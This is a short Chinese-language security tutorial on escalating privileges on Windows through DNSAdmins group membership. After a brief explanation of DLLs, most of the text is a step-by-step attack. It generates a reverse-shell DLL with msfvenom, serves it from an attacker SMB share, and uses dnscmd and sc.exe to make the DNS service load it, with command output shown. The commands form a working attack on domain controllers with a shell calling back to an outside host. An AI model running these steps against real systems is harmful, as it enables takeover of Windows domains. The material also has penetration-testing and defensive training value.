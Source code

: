 首先，让我们了解应用程序加载 DLL 的机制。

DLL 代表动态链接库，它是一个库文件，其中包含可被多个应用程序同时动态访问和使用的代码和数据。DLL 是 Microsoft 引入的，用于实现共享库的概念。

### 漏洞复现

如果一个用户是 DNSAdmins 组成员，可以以管理员权限加载 DLL，我们可以通过 msfvenom 来生成一个反弹 shell 的 DLL 文件获取管理员权限。

1. 首先查看我们的用户权限，我们的用户在 DNSAdmin 组里面![](https://image.3001.net/images/20210205/1612508927_601ceeff08197b4f70915.gif!small)

2. 使用 msfvenom 生成一个反弹 shell。

```
Msfvenom -p windows/x64/shell_reverse_tcp LHOST=X.X.X.X LPORT=443 -f dll -o rev.dll


```

![](https://image.3001.net/images/20210205/1612508965_601cef2516982f4362793.gif!small)

3. 在攻击者机器启动 smb 服务，通过 UNC 来读取攻击机上生成的 DLL 文件。

![](https://image.3001.net/images/20210205/1612508989_601cef3d17d389ecdbb15.jpg!small)

4. 在目标机器上调用 dnscmd 来执行加载远程 DLL 文件，普通用户执行 dnscms 可能会失败。

```
PS C:\Users\> dnscmd.exe /config /serverlevelplugindll \\X.X.X.X\s\rev.dll
Registry property serverlevelplugindll successfully reset.
Command completed successfully.
PS C:\Users\> sc.exe \\resolute stop dns
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530* 
 PS C:\Users\> sc.exe \\resolute start dns
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2644
        FLAGS              :


```
